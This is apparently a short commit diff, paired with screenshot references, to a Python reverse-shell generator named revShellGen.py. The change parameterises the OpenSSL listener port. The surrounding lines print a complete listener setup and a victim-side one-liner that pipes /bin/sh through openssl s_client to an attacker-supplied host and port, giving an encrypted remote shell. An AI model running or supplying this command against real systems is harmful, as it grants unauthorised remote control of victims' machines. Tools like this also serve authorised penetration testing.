

Initial commit

Changed region(s): [[0.0, 0.0, 0.9625, 1.0]]

diff --git a/revShellGen.py b/revShellGen.py
@@ -282,7 +282,7 @@ def openSSL(lhost, lport):
     
     {Fore.YELLOW}Listener{Style.RESET_ALL}:
     openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
-    openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
+    openssl s_server -quiet -key key.pem -cert cert.pem -port {lport}
     
     {Fore.YELLOW}Victim{Style.RESET_ALL}:
     mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect {lhost}:{lport} > /tmp/s; rm /tmp/s
